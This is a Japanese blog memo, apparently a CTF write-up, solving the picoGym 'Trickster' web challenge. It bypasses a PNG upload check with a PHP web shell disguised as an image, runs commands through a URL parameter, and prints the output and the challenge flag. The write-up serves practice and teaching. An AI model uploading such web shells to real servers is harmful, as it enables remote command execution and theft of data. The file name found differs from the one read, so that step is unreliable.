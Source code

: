 +++
author = "Hugo Authors"
title = "picoGym memo"
date = "2025-01-30"
description = ""
tags = [
    "CTF",
    "writeup",
    "picoGym",
]
categories = [
    "Security",
    "Programming",
]
image = "https://raw.githubusercontent.com/stark2420/starknote/refs/heads/main/static/image/srdnlen-ctf-2025/cover.png"
+++

常設のpicoGymに取り組んだ内容をメモしておく．
<!--more-->

## Web Exploitation
### Trickster
> I found a web app that can help process images: PNG images only!

アクセスすると，PNGファイルをアップロードできるフォームがある．
`/robots.txt`へアクセスすると，
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
とあり，`/instructions.txt`にアクセスすると，
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
とある．以上をまとめると，アップロードしたPNGファイルは`/uploads/`に置かれ，
PNGファイルの判別は，ファイル先頭の'PNG'の文字でのみ行っていると考えられる．  
したがって，PNGファイルとして偽装したphpファイルを置くことが出来そうである．  
以下の`main.png.php`ファイルを作成し，アップロードする．
{{< code lang="php" title="main.png.php" hl_lines="" >}}
PNG
<pre><?php system($_GET["cmd"]);?></pre>
{{< /code >}}

そして，`/uploads/main.png.php?cmd=find / -name '*.txt'`にアクセスする．  
すると`/var/www/html/GQ4DOOBVMMYGK.txt`というファイルを発見．
```
PNG
/usr/lib/python3.9/LICENSE.txt
/usr/local/lib/php/.channels/.alias/pear.txt
/usr/local/lib/php/.channels/.alias/pecl.txt
/usr/local/lib/php/.channels/.alias/phpdocs.txt
/usr/local/lib/php/doc/Archive_Tar/docs/Archive_Tar.txt
/usr/share/perl/5.32.1/Unicode/Collate/allkeys.txt
/usr/share/perl/5.32.1/Unicode/Collate/keys.txt
/usr/share/perl/5.32.1/unicore/Blocks.txt
/usr/share/perl/5.32.1/unicore/NamedSequences.txt
/usr/share/perl/5.32.1/unicore/SpecialCasing.txt
/var/www/html/GQ4DOOBVMMYGK.txt
/var/www/html/instructions.txt
/var/www/html/robots.txt
```
`/uploads/main.png.php?cmd=cat /var/www/html/MFRDAZLDMUYDG.txt`へアクセスすると，flagが得られる．
```
PNG
/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e} */
```

